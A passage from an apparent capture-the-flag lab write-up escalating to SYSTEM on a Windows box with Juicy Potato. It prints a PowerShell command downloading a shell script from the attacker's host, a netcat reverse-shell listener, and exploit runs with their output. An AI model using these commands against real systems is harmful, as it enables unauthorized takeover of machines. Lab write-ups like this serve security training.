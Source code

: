 ```text
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\merlin\Desktop\shell.bat')
```

Setup a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 6666
```

Then run the Juicy Potato executable. This should attempt to get a token that impersonates SYSTEM and then run our _shell.bat_ file with elevated privileges.

```text
PS C:\Users\Destitute\Desktop> ./jp.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
COM -> recv failed with error: 10038
```

It fails to escalate privileges with the default CLSID. We can get the list of CLSIDs on our system using [this script](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). However, let’s first manually try one of the Windows 10 Enterprise CLSIDs available on the Juicy Potato [github repo](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise).

![](../images/max/943/1*U4HIsLXdLBxuUF0uM8YuYw.png)

Rerun the Juicy Potato executable with the above specific CLSID.

```text
PS C:\Users\Destitute\Desktop> ./jp.exe -p shell.bat -l 4444 -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 4444
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!

```text
root@kali:~# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.116] 49720
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.PS C:\Windows\system32>whoami
nt authority\system
```
